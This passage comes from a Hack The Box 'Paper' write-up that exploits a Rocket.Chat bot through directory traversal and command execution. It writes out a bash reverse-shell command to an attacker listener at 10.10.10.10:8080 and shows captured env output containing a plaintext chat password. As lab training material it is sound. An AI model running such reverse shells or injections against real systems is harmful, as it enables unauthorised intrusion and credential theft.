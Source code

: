 ```
5. Time:
You can ask me what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
That's what I am capable of doing right now.
Also, Dwight is a cool guy and not a Time Thief!
```
Hilarious, so it seems like you can ask him something and he will fetch files, tell jokes and list directories.
When I see something like this i want to see what a legitimate call looks like and what a illigitimate one looks like.
So if we ask him `list sale` he replys with:
```bash
 Fetching the directory listing of /sales/
total 0
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 .
drwx------ 11 dwight dwight 281 Feb 6 07:51 ..
drwxr-xr-x 2 dwight dwight 27 Sep 15 13:03 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
```
But if we ask for something like `list sale; whoami`, then he simply replys with `STOP INJECTING OS COMMANDS`.
Another function he adds is `file reports.txt`, then he cats the file.
So we have two functions that each do `ls -la` and `cat`. 
If you use the list function, it doesn't sanitize our input to remove things like `../`, so we can directory traverse the filesystem to poke around.
...
Why not try run?
`run whoami` -> `Dwight`
We have code execution!
# Shell
I set up my NC listener `nc -nvlp 8080`
`run bash -i >& /dev/tcp/10.10.10.10/8080 0>&1`, we get shell!
I do reccommend taking a look at https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet . He has gathered everything you need.

So lets take a look at what we have, i run the env command to check out whats currently going on.

```bash
┌──(kali㉿kali)-[~/Documents/htb/paper]    
└─$ nc -nvlp 8080                                                                                         
listening on [any] 8080 ...                                                                               
connect to [10.10.10.10] from (UNKNOWN) [10.10.11.143] 46252

[recyclops@paper]$ env                      
RESPOND_TO_EDITED=true   
ROCKETCHAT_USER=recyclops            
_=/usr/bin/env                       
LANG=en_US.UTF-8                     
OLDPWD=/home/dwight/hubot            
ROCKETCHAT_URL=http://127.0.0.1:48320
ROCKETCHAT_USESSL=false      
XDG_SESSION_ID=1             
USER=dwight                  
NCAT_REMOTE_ADDR=10.10.14.231
RESPOND_TO_DM=true    
PWD=/home/dwight/hubot
HOME=/home/dwight                   
NCAT_REMOTE_PORT=8080               
PORT=8000                           
NCAT_LOCAL_PORT=46252               
ROCKETCHAT_PASSWORD=Queenofblad3s!23
```